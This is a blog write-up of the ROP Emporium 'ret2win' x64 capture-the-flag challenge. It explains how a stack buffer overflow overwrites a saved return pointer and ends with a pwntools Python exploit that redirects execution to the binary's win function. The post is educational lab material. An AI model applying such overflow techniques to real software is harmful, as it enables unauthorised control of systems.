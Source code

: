 ```yaml
---
layout: post
permalink: /ROP_emporium/2022-07-13-ROP-x64-Challenge-1
title: ROP x64 Challenge 1
status: in progress
type: post
published: true
comments: true
date: 2022-07-13
---
```


## Challenge 1 Ret2win

This challenge introduces the concept of a buffer overflow and controlling the instruction pointer of an executable. An important thing to know is that all the computer does is look at a chunk of binary in memory and then execute what it tells the computer to do. Then it looks at the next chunk of memory and so on and so forth.

However, occasionally the code needs to jump to other parts of code in order to function correctly (think of an if statement or a loop). To do this the computer simply reads an instruction that tells it to jump to a different part of code, say 20 values up/down from where it is now. 

That works great for loops and if statements, but programmers often want to call code from many different parts of the program (think functions). So in the middle of doing A, I want the program to stop, go do B, then come back and finish A. I also want to be able to do that while doing C, D, and F. The problem for the program, is once it finishes B, where does it go back to, A, C, D or F. It has to store that information somewhere and it is stored on the stack, which can be considered the memory of every function. The first thing a function does is store where it should return to on the stack and the last thing a function does is tell the computer to return back to that location.

What we are going to try and do is change that value on the stack so when the program returns to that stored location it returns to where we want it to go.

We see from running the ret2win binary that it will "attempt to fit 56 bytes of user input into 32 bytes of stack buffer!" and after looking at the stack in [[pwndbg]] we are able to see the following layout:

> ./ret2win 
	ret2win by ROP Emporium
	x86_64
	For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffer!
	What could possibly go wrong?
	You there, may I have your input please? And don't worry about null bytes, we're using read()!

All local variables are on the stack and a base pointer (which we don't have to worry about). So assuming there are no other local variables, there is 40 bytes bytes between the read and the return pointer. We can craft a payload like this:
```
        | stack          |
        | -------------- |
8 bytes | start buffer   |
8 bytes | buffer         |
8 bytes | buffer         |
8 bytes | buffer         |
8 bytes | base pointer   |
8 bytes | return pointer | # where we are going to return to
8 bytes | -------------- |

```
By writing in the first 32+8 bytes of garbage, we are then able to write whatever we want into the return pointer. So all we have to do is look to see what the value should be.
```
pwndbg> info functions
All defined functions:

Non-debugging symbols:
...
0x0000000000400690  frame_dummy
0x0000000000400697  main
0x00000000004006e8  pwnme
0x0000000000400756  ret2win
...
pwndbg>
```

Looking at the functions in the binary we see there is one called ret2win or return here to win which seems super promising. Piecing that all together and we get the following exploit.

```python
from pwn import *

io = process('./ret2win')


# The amount to fill the buffer
junk = b'A' * 0x20

# The 8 bytes to fill the new base pointer from the leave
new_bp = p32(0xcafebabe)*2

new_IP = p32(0x00400756) # The ret2win pointer

payload = junk + new_bp +  new_IP

# Print the payload for debugging puropses
print("The payload is:")
print(payload)

# wait for debugger to be attached
input("Hit enter to apptempt exploit")

# read the output and send the payload
print(io.clean(0.5).decode("utf-8"))
io.send(junk+new_bp + new_IP)



# Once done debugging, read the output
input("exploit sent hit enter to end")
print(io.clean(0.5).decode("utf-8"))


```

The exploit will print out the pid of the process and then wait in order to attach gdb with `gdb -p $pid` for debugging it live.

